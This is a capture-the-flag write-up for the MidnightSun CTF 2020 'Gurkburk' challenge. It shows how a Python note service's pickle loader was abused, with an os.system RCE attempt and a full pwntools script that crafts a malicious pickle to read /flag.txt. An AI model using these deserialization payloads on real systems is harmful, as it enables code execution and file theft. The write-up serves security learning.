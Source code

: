 Gurkburk: Web - MidnightSun CTF 2020
===
Played with [npi](https://twitter.com/n0pwnintended)!!

## The challenge
The challenge is a simply note-taking service, written in python( as challenge descriptions says ), with an intresting feature: Load/Save notes:

![TheChallenge](images/challenge.png)

## Exploit

After random attemps (create note, erase ecc) and after 'Save notes', the service tells me this:

```
Here is your loading code: Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAwCihjX19tYWluX18KTm90ZXMKcDEKY19fYnVpbHRpbl9fCm9iamVjdApwMgpOdHAzClJwNAooZHA1ClZuYW1lCnA2ClZNeSBub3RlcwpwNwpzVm5vdGVzCnA4CihscDkKVkNpYW8KcDEwCmFzYi4=
```
Uhmm! Base64, Okay, let's try to decode it:
```
ccopy_reg
_reconstructor
p0
(c__main__
Notes
p1
c__builtin__
object
p2
Ntp3
Rp4
(dp5
Vname
p6
VMy notes
p7
sVnotes
p8
(lp9
VCiao
p10
asb.
```
Well, this is a [pickle](https://docs.python.org/3/library/pickle.html) dumps. 

### First Attemps: RCE
With reduce and os.system let's try to make an rce payload:
```python
import os
class X:
    def __reduce__(self):
        return os.system, ("echo 'pwned'",)
```
...send to service:
```
_pickle.UnpicklingError: Your pickle is trying to load something sneaky. Only the modules __main__, __builtin__ and copyreg are allowed. eval and exec are not allowed.
```
Very sad, but it tells us something useful( sad but useful): only \_\_main\_\_ (sure, class Notes is in main module) and \_\_builtin\_\_ are allowed. 
The description says: ```The flag is in ./flag.txt```.

Good: open function is in builtin methods.

### Second Attemps: Craft a Notes istance with fd as note

We do not have source code (the files in ctf-files was leaked by exploit), but now, we know some things:

* From pickle dump: Notes.notes is an array
* By simply guessing: Listing feature uses a iterator-based (```for```) cycle:

Good news: open function returns an iterator over lines, too.

Let's make a more complex payload (with some OSINT obv):
```python
import pickle, sys, re, base64
from pwn import remote


class FakeModules(type(sys)):
    modules = {}

    def __init__(self, name):
        self.d = {}
        super().__init__(name)

    def __getattribute__(self, name):
        d = self()
        return d[name]

    def __call__(self):
        return object.__getattribute__(self, "d")

def add_module(s):
    # ADD MODULE
    mod, name = s.split(".")
    if mod not in FakeModules.modules:
        FakeModules.modules[mod] = FakeModules(mod)
    d = FakeModules.modules[mod]()
    if name not in d:
        def f(): pass
        f.__module__ = mod
        f.__qualname__ = name
        f.__name__ = name
        d[name] = f
    return d[name]

def dumps(obj):
    pickle.dumps = pickle._dumps
    orig = sys.modules

    # INJECT FAKE MODULES
    sys.modules = FakeModules.modules
    s = pickle.dumps(obj)
    sys.modules = orig
    return s

def craft(func, *args, dict=None, list=None, items=None):
    # UTILS FOR __REDUCE__
    class X:
        def __reduce__(self):
            tup = func, tuple(args)
            if dict or list or items:
                tup += dict, list, items
            return tup
    return X()


class Exploit:


    def __init__(self, host, port) -> None:
        self.p = remote(host, port)

    def load(self):
        cal = craft(add_module("__main__.Notes"), dict={
            "notes" :craft(add_module("__builtin__.open"), "/flag.txt")
            }
        )
        payload = base64.b64encode(dumps(cal))
        self.send_command("l", payload)

    
    def list_notes(self):
        return self.send_command("d")
    
    def get_flag(self):
        self.load()
        text = self.list_notes()

        pattern = r'(midnight{.*})'
        flags = re.findall(pattern, text.decode())

        if len(flags)>0:
            return flags[0]

    def send_command(self, command, arg=None):
        self.p.recvuntil("==>")
        self.p.sendline(command)
        
        if arg:
            self.p.recvuntil(":")
            self.p.sendline(arg)
            
        results = self.p.recvuntil("*")
        return results




e = Exploit("gurkburk-01.play.midnightsunctf.se", 37541)
print("FLAG =>" , e.get_flag())

```

It works: ```midnight{d311c10u5_p1ck135_f0r_3v3ry0n3}```